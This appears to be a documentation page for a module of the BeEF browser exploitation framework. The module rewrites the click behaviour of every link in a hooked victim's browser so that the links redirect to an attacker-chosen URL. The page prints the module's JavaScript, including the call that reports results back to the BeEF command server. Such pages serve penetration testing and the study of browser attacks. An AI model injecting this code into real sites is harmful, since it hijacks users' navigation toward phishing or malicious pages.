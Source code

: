 ## Summary

* **Objective**: Replace all links to a specified link
* **Authors**: xntrik, @bilawalhameed, passbe
* **Browsers**: All except Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/link_rewrite_click_events)

## Internal Working

sets a javascript callback function on the element of all links to redirect to a specified link when clicked.

```js

beef.execute(function() {
    beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinksClickEvents('<%= @url %>')+' links rewritten to <%= @url %>');
});

//rewriteLinksClickEvents function

rewriteLinksClickEvents: function(url, selector) {
        var sel = (selector == null) ? 'a' : selector;
        return $j(sel).each(function() {
                if ($j(this).attr('href') != null)
                {
                        $j(this).click(function() {this.href=url});
                }
        }).length;
},

```

## Feedback
